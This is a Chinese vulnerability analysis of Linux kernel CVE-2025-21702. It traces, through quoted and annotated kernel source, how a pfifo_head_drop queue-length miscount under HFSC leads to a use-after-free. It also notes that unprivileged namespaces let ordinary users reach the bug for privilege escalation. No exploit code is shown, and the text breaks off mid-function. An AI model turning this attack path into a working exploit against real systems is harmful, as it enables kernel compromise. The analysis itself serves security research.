








# 【Kernel Exploit】CVE-2025-21702 漏洞分析

## 1. 测试环境

**测试版本**：Linux-6.12.13 [内核镜像地址](https://github.com/BinRacer/pwn4cve/blob/master/kernels/6.12.13/01/bzImage) 和 Linux-6.6.75 [内核镜像地址](https://github.com/BinRacer/pwn4cve/blob/master/kernels/6.6.75/01/bzImage)

笔者测试的内核版本是 `Linux alpine 6.12.13 #1 SMP PREEMPT_DYNAMIC Sun Mar  1 20:47:10 CST 2026 x86_64 Linux` 和 `Linux alpine 6.6.75 #1 SMP PREEMPT_DYNAMIC Sun Mar  1 14:33:34 CST 2026 x86_64 Linux`。

**编译选项**：开启`CONFIG_IO_URING`、`CONFIG_TMPFS`、`CONFIG_SHMEM`、`CONFIG_SECURITY`、`CONFIG_BINFMT_MISC`、`CONFIG_THREAD_INFO_IN_TASK`、`CONFIG_INIT_ON_ALLOC_DEFAULT_ON`、`CONFIG_KCMP`、`CONFIG_MEMCG`、`CONFIG_CGROUPS`、`CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_SLAB_FREELIST_HARDENED`、`CONFIG_SHUFFLE_PAGE_ALLOCATOR`、`CONFIG_HARDENED_USERCOPY`、`CONFIG_FUSE_FS`、`CONFIG_USERFAULTFD`、`CONFIG_SYSVIPC`、`CONFIG_KEYS`、`CONFIG_STACKPROTECTOR`、`CONFIG_STACKPROTECTOR_STRONG`、`CONFIG_SLUB`、`CONFIG_SLUB_DEBUG`、`CONFIG_E1000`、`CONFIG_E1000E`、`CONFIG_PACKET`、`CONFIG_PACKET_DIAG`、`CONFIG_USER_NS`、`CONFIG_NET_NS`、`CONFIG_NAMESPACES`、`CONFIG_CHECKPOINT_RESTORE`、`CONFIG_IPC_NS`、`CONFIG_NF_TABLES`、`CONFIG_NETFILTER`、`CONFIG_NET_SCHED`、`CONFIG_NET_SCH_FIFO`、`CONFIG_NET_SCH_HFSC`、`CONFIG_XFRM`、`CONFIG_XFRM_OFFLOAD`、`CONFIG_XFRM_ALGO`、`CONFIG_XFRM_USER`、`CONFIG_XFRM_USER_COMPAT`、`CONFIG_XFRM_INTERFACE`、`CONFIG_XFRM_STATISTICS`、`CONFIG_XFRM_ESPINTCP`、`CONFIG_DUMMY`、`CONFIG_DUMMY_IRQ`、`CONFIG_DUMMY_CONSOLE`选项，关闭`CONFIG_RANDOM_KMALLOC_CACHES`选项。完整配置参考[(6.12.13).config](https://github.com/BinRacer/pwn4cve/blob/master/kernels/6.12.13/01/.config) 和 [(6.6.75).config](https://github.com/BinRacer/pwn4cve/blob/master/kernels/6.6.75/01/.config)。

**保护机制**：KASLR/SMEP/SMAP/KPTI

## 2. 漏洞背景

### 2-1. 漏洞概述

**CVE-2025-21702** 是 Linux 内核流量控制（Traffic Control，简称 TC）子系统中的一个队列长度计数不一致漏洞，其根源位于 `net/sched/sch_fifo.c` 中的 `pfifo_tail_enqueue()` 函数。该函数是 `pfifo_head_drop` 队列规则（qdisc）的入队路径实现。`pfifo_head_drop` 是一种“队首丢弃”型 FIFO 队列：当队列已达到容量上限时，新数据包不会导致队尾溢出，而是将队首（最旧）的数据包丢弃，再把新包追加到队尾，最终向调用者返回 `NET_XMIT_CN` 状态码，表示“拥塞通知”。

Linux 的 qdisc 子系统采用树状层级结构，父 qdisc 可以挂载子 qdisc，形成父子关系。在这种结构中，存在一个隐含的状态一致性契约：父 qdisc 的队列长度 `qlen` 应当等于其所有子 qdisc 的 `qlen` 之和。这一契约是调度器正确决策的基础。然而，**CVE-2025-21702** 打破了这一契约：当 `sch->limit == 0` 且队列为空时，`pfifo_tail_enqueue()` 的“丢弃队首”步骤因队列为空而成为空操作，但“追加新包”的步骤仍然执行，导致子 qdisc 的 `qlen` 从 0 增加到 1，同时函数依然返回 `NET_XMIT_CN`。父 qdisc（如 HFSC、DRR 等）将 `NET_XMIT_CN` 视为非成功状态，因而不增加自身的 `qlen`。于是，父子队列长度出现偏差：子 qdisc 报告 `qlen == 1`，而父 qdisc 仍为 `qlen == 0`。

这一计数偏差本身尚不直接构成内存破坏，但它是一个危险的逻辑种子。通过特定的 qdisc 创建、删除与路由修改操作，可以进一步放大这一偏差：删除 `limit == 0` 的子 qdisc 时，父 qdisc 的 `qlen` 会减去子 qdisc 的 `qlen`（此时为 1），而父 qdisc 的 `qlen` 原本为 0，于是父 qdisc 的 `qlen` 变为负值。负的 `qlen` 在后续的 `hfsc_change_class()` 中仍然满足 `cl->qdisc->q.qlen != 0` 的判断，从而在正常入队路径（Flow1）尚未执行 `init_ed()` 之前，就提前触发更新路径（Flow2）中的 `eltree_update()`。Flow2 内部依次调用 `eltree_remove()` 与 `eltree_insert()`，而 Flow1 后续也会调用 `eltree_insert()`。两次 `eltree_insert()` 作用于同一个 `hfsc_class` 的 `el_node` 上，由于红黑树插入操作并不检查节点是否已经在树中，第二次插入会覆盖第一次设置的父指针与左右子指针，最终使 `sched->eligible.rb_node` 形成自引用结构。当该类被删除时，其 `el_node` 所在内存被释放，但树根 `sched->eligible.rb_node` 仍持有指向该内存的悬空指针，从而形成 **Use-After-Free（UAF）**。

该漏洞由 Quang Le 于 2025 年 2 月 3 日报告。其 CVSS v3.1 评分为 7.8（High），向量为 `CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:H`，**CWE: CWE-416 - Use After Free**。在可达条件下，该漏洞可被用于从用户态到内核态的权限提升。触发漏洞通常需要 `CAP_NET_ADMIN` 与 `CAP_NET_RAW` 能力，但在启用非特权用户命名空间（`CONFIG_USER_NS`）和网络命名空间（`CONFIG_NET_NS`）的环境中，普通用户可以通过创建独立的网络命名空间获得这些能力，从而显著降低漏洞的可达门槛。

在明确了漏洞的总体轮廓之后，接下来需要深入其技术根因，理解 `pfifo_tail_enqueue()` 在边界条件下的行为偏差是如何一步步传导为 UAF 的。

### 2-2. 漏洞根因

该漏洞的根因在于 `pfifo_tail_enqueue()` 在 `sch->limit == 0` 这一边界条件下的行为与其预期语义不符。为了彻底理解这一偏差如何从单个 qdisc 的计数错误传导为父子队列之间的状态不一致，并最终演化为 UAF，需要沿着 HFSC 的入队、类变更、红黑树操作与出队路径，逐层分析各关键函数在异常状态下的实际行为。本章节涉及的所有函数，均基于 Linux **v6.12.13** 的源代码进行分析。

#### 2-2-1. 传导路径总览

从高层看，漏洞的传导链条可概括为：`pfifo_tail_enqueue()` 在 `limit == 0` 且队列为空时，错误地将子 qdisc 的 `qlen` 从 0 增加到 1，并返回 `NET_XMIT_CN`；`hfsc_enqueue()` 收到该返回值后直接返回，不增加父 qdisc 的 `qlen`，父子计数出现偏差；通过一系列 qdisc 创建与删除操作，目标类的叶 qdisc `qlen` 被放大为负值；负的 `qlen` 仍满足 `cl->qdisc->q.qlen != 0`，使得 `hfsc_change_class()` 在正常入队路径（Flow1）尚未执行 `init_ed()` 之前，提前触发更新路径（Flow2）中的 `eltree_update()`；两次 `eltree_insert()` 作用于同一个 `el_node`，红黑树插入操作不检查节点是否已在树中，最终使 `sched->eligible.rb_node` 形成自引用；当该类被删除时，`el_node` 所在内存被释放，但树根仍持有悬空指针，形成 **Use-After-Free**。

#### 2-2-2. 入队计数偏差

##### 2-2-2-1. 边界行为

`pfifo_tail_enqueue()` 是 `pfifo_head_drop` 队列规则的入队函数。

```c
static int pfifo_tail_enqueue(struct sk_buff *skb, struct Qdisc *sch,
                              struct sk_buff **to_free)
{
    unsigned int prev_backlog;

    /* 快速路径：当前队列长度严格小于 limit，直接将新包追加到队尾
     * 此路径下不会丢弃任何已有数据包，qlen 正常递增 1
     * 返回 NET_XMIT_SUCCESS 表示入队成功
     */
    if (likely(sch->q.qlen < READ_ONCE(sch->limit)))
        return qdisc_enqueue_tail(skb, sch);

    /* ★★★★★ 漏洞点 ★★★★★
     * 下面进入慢速路径。当 limit == 0 且队列为空时，
     * 条件 0 < 0 为假，函数继续执行。
     * 按设计应先丢弃队首再追加新包，但队列为空，
     * __qdisc_queue_drop_head 不会递减 qlen。
     * 然而 qdisc_enqueue_tail 仍会执行，使 qlen 从 0 变为 1。
     * 函数最终返回 NET_XMIT_CN，调用者误判入队未成功，
     * 不增加父 qdisc 的 qlen，父子计数偏差由此产生。
     */
    prev_backlog = sch->qstats.backlog;

    /* 尝试从队首移除一个 skb
     * 若队列为空，此调用不会递减 qlen，也不会减少 backlog
     */
    __qdisc_queue_drop_head(sch, &sch->q, to_free);
    qdisc_qstats_drop(sch);   /* 递增本 qdisc 的丢弃计数 */

    /* 将新 skb 追加到队尾，qlen 递增 1，backlog 增加 skb 长度 */
    qdisc_enqueue_tail(skb, sch);

    /* 沿 qdisc 层级向上调整父 qdisc 的 qlen 与 backlog
     * 此处 n=0，len 为 prev_backlog 与当前 backlog 之差
     * 在 limit==0 且队列为空的场景下，len 为负值
     */
    qdisc_tree_reduce_backlog(sch, 0, prev_backlog - sch->qstats.backlog);
    return NET_XMIT_CN;   /* 返回拥塞通知，调用者视为非成功 */
}
```

当 `sch->limit == 0` 且队列为空时，条件 `sch->q.qlen < READ_ONCE(sch->limit)` 即 `0 < 0` 为假，函数进入慢速路径。此时 `prev_backlog` 被赋值为 `sch->qstats.backlog`，即 0。`__qdisc_queue_drop_head()` 在空队列上不会递减 `qlen`，因为 `__qdisc_dequeue_head()` 遇到 `head == NULL` 时直接返回，不执行 `qh->qlen--`。但 `qdisc_enqueue_tail()` 会将新包追加到队尾，使 `sch->q.qlen` 从 0 增加到 1。随后 `qdisc_tree_reduce_backlog()` 以 `n=0`、`len = 0 - skb_len = -skb_len` 调用，父 qdisc 的 `qlen` 不变，但 `backlog` 被错误地增加了 `skb_len`。最终，子 qdisc 报告 `qlen == 1`，父 qdisc 报告 `qlen == 0`，状态不变式 `parent_qlen == sum(children_qlen)` 被破坏。

##### 2-2-2-2. 入队辅助

`qdisc_enqueue_tail()` 负责将 skb 追加到队列尾部，并更新队列长度与积压字节数：

```c
static inline int qdisc_enqueue_tail(struct sk_buff *skb, struct Qdisc *sch)
{
    /* 将 skb 插入 qdisc 的 skb 链表尾部
     * __qdisc_enqueue_tail 内部会递增 sch->q.qlen
     * 该函数不检查 limit，仅完成链表操作
     */
    __qdisc_enqueue_tail(skb, &sch->q);

    /* 更新积压字节数：backlog 累加 skb 的数据包长度
     * qdisc_pkt_len 从 skb 控制块中读取入队时记录的长度
     */
    qdisc_qstats_backlog_inc(sch, skb);

    return NET_XMIT_SUCCESS;   /* 入队成功 */
}
```

`__qdisc_enqueue_tail()` 完成链表插入与 `qlen` 递增：

```c
static inline void __qdisc_enqueue_tail(struct sk_buff *skb,
                                        struct qdisc_skb_head *qh)
{
    struct sk_buff *last = qh->tail;

    if (last) {
        /* 队列非空：将新 skb 接到当前尾节点之后
         * 新节点的 next 置空，原尾节点的 next 指向新节点
         * 尾指针更新为新节点
         */
        skb->next = NULL;
        last->next = skb;
        qh->tail = skb;
    } else {
        /* 队列为空：新 skb 同时成为头节点和尾节点
         * 此时 head 与 tail 均指向新节点
         */
        qh->tail = skb;
        qh->head = skb;
    }
    qh->qlen++;   /* 队列长度无条件加 1 */
}
```

`qdisc_qstats_backlog_inc()` 更新积压字节数：

```c
static inline void qdisc_qstats_backlog_inc(struct QDisc *sch,
                                            const struct sk_buff *skb)
{
    /* 将 skb 的数据包长度累加到 qdisc 的 backlog 统计中
     * qdisc_pkt_len 返回 qdisc_skb_cb(skb)->pkt_len
     */
    sch->qstats.backlog += qdisc_pkt_len(skb);
}
```

`qdisc_pkt_len()` 从 skb 的控制块中读取数据包长度：

```c
static inline unsigned int qdisc_pkt_len(const struct sk_buff *skb)
{
    /* qdisc_skb_cb 是 skb 的控制块，pkt_len 字段记录入队时的数据包长度
     * 该长度在数据包进入 qdisc 层时被设置，后续统计均依赖此值
     */
    return qdisc_skb_cb(skb)->pkt_len;
}
```

因此，在空队列上调用 `qdisc_enqueue_tail()` 会使 `sch->q.qlen` 从 0 变为 1，`sch->qstats.backlog` 从 0 变为 `skb_len`。

##### 2-2-2-3. 丢弃辅助

`__qdisc_queue_drop_head()` 负责从队列头部移除一个 skb 并更新统计：

```c
static inline unsigned int __qdisc_queue_drop_head(struct Qdisc *sch,
                                                   struct qdisc_skb_head *qh,
                                                   struct sk_buff **to_free)
{
    /* 尝试从队首取出一个 skb
     * 若队列为空，__qdisc_dequeue_head 返回 NULL，qlen 不变
     */
    struct sk_buff *skb = __qdisc_dequeue_head(qh);

    if (likely(skb != NULL)) {
        unsigned int len = qdisc_pkt_len(skb);

        /* 队列非空：从 backlog 中减去该 skb 的长度
         * 同时将 skb 挂入待释放链表，稍后统一释放
         */
        qdisc_qstats_backlog_dec(sch, skb);
        __qdisc_drop(skb, to_free);
        return len;   /* 返回被丢弃数据包的长度 */
    }

    /* 队列为空：直接返回 0，不改变 qlen 与 backlog
     * 这正是漏洞场景下丢弃步骤空转的原因
     */
    return 0;
}
```

`__qdisc_dequeue_head()` 尝试取出队首节点：

```c
static inline struct sk_buff *__qdisc_dequeue_head(struct qdisc_skb_head *qh)
{
    struct sk_buff *skb = qh->head;

    if (likely(skb != NULL)) {
        /* 队列非空：头指针后移，qlen 减 1 */
        qh->head = skb->next;
        qh->qlen--;

        /* 若队列变为空，尾指针也置空 */
        if (qh->head == NULL)
            qh->tail = NULL;

        skb->next = NULL;   /* 断开被取出节点的 next 指针 */
    }

    /* 队列为空时返回 NULL，qlen 保持不变
     * 注意：此处不执行 qh->qlen--，因此空队列调用不会导致 qlen 下溢
     */
    return skb;
}
```

`qdisc_qstats_backlog_dec()` 减少积压字节数：

```c
static inline void qdisc_qstats_backlog_dec(struct QDisc *sch,
                                            const struct sk_buff *skb)
{
    /* 从 backlog 统计中减去该 skb 的数据包长度
     * 该函数仅在确实取出 skb 时被调用
     */
    sch->qstats.backlog -= qdisc_pkt_len(skb);
}
```

`__qdisc_drop()` 将 skb 挂入待释放链表：

```c
static inline void __qdisc_drop(struct sk_buff *skb, struct sk_buff **to_free)
{
    /* 将 skb 插入 to_free 链表的头部
     * 后续在 __dev_xmit_skb 结束时统一释放，避免在持有 qdisc 锁时调用 kfree_skb
     * 这样可减少锁持有时间，同时保证 skb 最终被正确释放
     */
    skb->next = *to_free;
    *to_free = skb;
}
```

当队列为空时，`qh->head` 为 `NULL`，`__qdisc_dequeue_head()` 直接返回 `NULL`，不执行 `qh->qlen--`。因此 `__qdisc_queue_drop_head()` 中的 `if (likely(skb != NULL))` 条件不成立，函数返回 0，且不调用 `qdisc_qstats_backlog_dec()`。丢弃队首的步骤完全是空操作，`sch->q.qlen` 与 `sch->qstats.backlog` 均保持不变。

##### 2-2-2-4. 统计更新

`qdisc_qstats_drop()` 递增丢弃统计：

```c
static inline void qdisc_qstats_drop(struct Qdisc *sch)
{
    /* 递增本 qdisc 的丢弃计数
     * 该调用仅影响 drops 字段，不影响 qlen 与 backlog
     */
    qstats_drop_inc(&sch->qstats);
}
```

`qstats_drop_inc()` 内部实现：

```c
static inline void qstats_drop_inc(struct gnet_stats_queue *qstats)
{
    /* 将丢弃计数加 1
     * 用于统计因队列满或其他原因被丢弃的数据包数量
     */
    qstats->drops++;
}
```

这一步仅更新 `drops` 计数，不影响 `qlen` 与 `backlog`。

##### 2-2-2-5. 父队列调整

`qdisc_tree_reduce_backlog()` 沿 qdisc 层级向上调整父 qdisc 的 `qlen` 与 `backlog`：

```c
void qdisc_tree_reduce_backlog(struct Qdisc *sch, int n, int len)
{
    bool qdisc_is_offloaded = sch->flags & TCQ_F_OFFLOADED;
    const struct Qdisc_class_ops *cops;
    unsigned long cl;
    u32 parentid;
    bool notify;
    int drops;

    /* 若 n 和 len 同时为 0，无需调整任何父 qdisc，直接返回 */
    if (n == 0 && len == 0)
        return;

    /* drops 取 n 与 0 的较大值，n=0 时 drops=0
     * 表示需要向上层报告的丢弃数量
     */
    drops = max_t(int, n, 0);
    rcu_read_lock();

    /* 沿 qdisc 层级向上遍历，直到根 qdisc 或遇到 NOPARENT 标志 */
    while ((parentid = sch->parent)) {
        if (parentid == TC_H_ROOT)
            break;

        if (sch->flags & TCQ_F_NOPARENT)
            break;

        /* 若子 qdisc 已空且 n 为 0，则通知父类
         * 此处的 WARN_ON_ONCE 用于检测异常情况：子 qdisc 为空但 n 非 0
         * qdisc_is_offloaded 为真时允许子 qdisc 被视为空
         */
        notify = !sch->q.qlen && !WARN_ON_ONCE(!n &&
                                               !qdisc_is_offloaded);

        /* 根据 parentid 查找父 qdisc */
        sch = qdisc_lookup_rcu(qdisc_dev(sch), TC_H_MAJ(parentid));
        if (sch == NULL) {
            WARN_ON_ONCE(parentid != TC_H_ROOT);
            break;
        }

        cops = sch->ops->cl_ops;

        /* 若满足通知条件且父 qdisc 提供了 qlen_notify 回调，则调用
         * 用于通知父类其子队列状态发生变化
         */
